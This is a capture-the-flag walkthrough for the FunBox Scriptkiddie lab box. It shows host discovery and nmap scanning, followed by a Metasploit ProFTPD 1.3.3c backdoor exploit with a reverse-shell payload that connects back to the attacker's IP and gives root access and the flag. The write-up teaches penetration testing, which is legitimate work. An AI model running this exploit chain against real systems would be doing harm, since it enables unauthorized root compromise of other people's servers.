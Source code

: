 # **FunBox_Scriptkiddie_Walkthrough**

This box was created by **0815R2d2**

We start by running a netdiscover scan to get the IP address:

```sudo netdiscover -r <ip_address_range>```

<img src="netdiscover.png">

Then we run an nmap scan on 10.0.2.25: 

```nmap -A -v <ip_address>```

<img src="nmap.png">

Now, we see a lot of open ports here. My initial reaction was to attack the webpage, so I ran dirb and discovered the webpage was using wordpress. This prompted me run wpscan, but everything was updated and no vulnerabilities were found. I started poking around looking for known vulnerabilities on the other open ports, and I found that there was actually a metasploit module targeting the ftp service.

<img src="nmap_ftp.png">

```
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
```

<img src="metasploit_module.png">

For this module, you need to set the payload, so we use the command ```set payload cmd/unix/reverse``` and we set the options.

```
show options
set rhosts <ip_address_of_target>
set lhost <your_ip_address>
```

<img src="metasploit_module_ready.png">

Now we simply type ```exploit``` and **BOOM** we have a reverse shell.

<img src="reverse_shell.png">

When I get a reverse shell, I always start with ```whoami``` just see where we're at, and in this case, we're already root!

<img src="whoami.png">

Now, it's just a simple case of poking around the file system to find the flag, and in this case it's in the root directory.

```
ls -la
cd root
ls
cat root.txt
```

<img src="root_flag.png">

And that, folks, is why you always keep your services up to date.
